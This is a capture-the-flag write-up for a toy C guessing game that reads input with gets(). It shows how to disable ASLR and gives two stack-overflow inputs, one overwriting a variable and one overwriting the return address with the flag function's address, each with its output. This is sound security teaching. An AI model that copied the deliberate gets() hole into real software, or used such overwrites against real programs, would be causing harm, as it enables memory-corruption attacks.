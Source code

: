 # Holjak

Turn off ASLR

```python
sudo sysctl -w kernel.randomize_va_space=0
```

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

void flag(void)
{
    puts("Well done, you have the flag!");
}

int main(int argc, char **argv)
{
    char input[20];
    printf("Hello this is holjak game\n");
    printf("Please choose between odd and even.(Type '1' or '2')\n");
    printf("1. Odd\n2. Even\n");
    srand(time(NULL));
    int answer = rand() % 2;
    gets(input);
    int guess = atoi(input) % 2;
    if (answer == 3)
    {
        flag();
        exit(1);
    }
    printf("G: %d, A: %d\n", guess, answer);
    if (guess == answer)
        printf("You are correct\n");
    else
        printf("You are wrong, too bad\n");
    exit(0);
}
```

This is a simple “holjak”(odd or even in Korean) game. The program chooses a random odd or evne number. The player has to guess if the number is odd or even.  The ‘answer’ variable is always 0 or 1, as it is a modulus of 2. If the player can exploit the game and tamper the answer so that it becomes 3, an impossible answer, they get the flag.

## Exploit

Simple bof.

```c
$ (python3 -c 'print("A" * 28 + "\x03")') | ./holjak
Hello this is holjak game
Please choose between odd and even.(Type '1' or '2')
1. Odd
2. Even
rand: 3
Well done, you have the flag!
```

## Exploit(modified)

```c
gdb-peda$ p flag
$2 = {void (void)} 0x555555555249 <flag>
```

Find the address of the flag and overwrite the return address.

```bash
teddy@yo-laptop:~/swSec/gitCTF/holjak$ (python3 -c 'print( "A" * 24 + "\x49\x52\x55\x55\x55\x55\x00\x00")') | ./holjak
Hello this is holjak game.

Please choose between odd and even.(Type '1' or '2')

1. Odd
2. Even
Your guess:
The answer is even!

You are wrong, too bad
Well done, you have the flag!
```